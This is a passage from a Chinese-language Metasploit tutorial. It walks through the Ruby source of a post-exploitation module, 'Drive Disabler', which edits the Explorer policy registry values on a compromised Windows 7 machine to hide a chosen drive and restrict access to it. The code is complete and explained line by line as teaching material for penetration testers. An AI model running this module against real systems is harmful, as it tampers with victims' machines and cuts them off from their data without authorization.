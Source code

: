 因此，让我们从一个简单的驱动器禁用模块开始，该模块将在目标系统（即 Windows 7 操作系统）上禁用选定的驱动器。让我们看看模块的代码，如下所示：

```
require 'rex' 
require 'msf/core/post/windows/registry' 
class MetasploitModule < Msf::Post 
  include Msf::Post::Windows::Registry 
  def initialize 
    super( 
        'Name'          => 'Drive Disabler', 
        'Description'   => 'This Modules Hides and Restrict Access to a Drive', 
        'License'       => MSF_LICENSE, 
        'Author'        => 'Nipun Jaswal' 
      ) 
    register_options( 
      [ 
        OptString.new('DriveName', [ true, 'Please SET the Drive Letter' ]) 
      ]) 
  end     
```

我们以与前面模块相同的方式开始。我们添加了此后期开发模块所需的所有库的路径。让我们在下表中查看任何新的包含项及其用法：

| **包含报表** | **路径** | **用法** |
| `Msf::Post::Windows::Registry` | `lib/msf/core/post/windows/registry.rb` | 这个库将使我们能够使用 Ruby mixin 轻松地使用注册表操作函数。 |

接下来，我们将模块的类型定义为`Post`，用于后期开发。继续代码，我们用`initialize`方法描述模块的必要信息。我们始终可以定义`register_options`来定义与模块一起使用的自定义选项。在这里，我们使用`OptString.new`将`DriveName`描述为字符串数据类型。新选项的定义需要两个参数，即`required`和`description`。我们将`required`的值设置为`true`，因为我们需要一个驱动器号来启动隐藏和禁用过程。因此，将其设置为`true`将不允许模块运行，除非为其分配了值。接下来，我们定义新添加的`DriveName`选项的描述。

在继续代码的下一部分之前，让我们看看本模块将使用哪些重要功能：

| **功能** | **库文件** | **用法** |
| `meterpreter_registry_key_exist` | `lib/msf/core/post/windows/registry.rb` | 检查注册表中是否存在特定项 |
| `registry_createkey` | `lib/msf/core/post/windows/registry.rb` | 创建一个新的注册表项 |
| `meterpreter_registry_setvaldata` | `lib/msf/core/post/windows/registry.rb` | 创建一个新的注册表值 |

让我们看看模块的其余部分：

```
def run 
drive_int = drive_string(datastore['DriveName']) 
key1="HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" 

exists = meterpreter_registry_key_exist?(key1) 
if not exists 
print_error("Key Doesn't Exist, Creating Key!") 
registry_createkey(key1) 
print_good("Hiding Drive") 
meterpreter_registry_setvaldata(key1,'NoDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
print_good("Restricting Access to the Drive") 
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
else 
print_good("Key Exist, Skipping and Creating Values") 
print_good("Hiding Drive") 
meterpreter_registry_setvaldata(key1,'NoDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
print_good("Restricting Access to the Drive") 
meterpreter_registry_setvaldata(key1,'NoViewOnDrives',drive_int.to_s,'REG_DWORD',REGISTRY_VIEW_NATIVE) 
end 
print_good("Disabled #{datastore['DriveName']} Drive") 
end 
```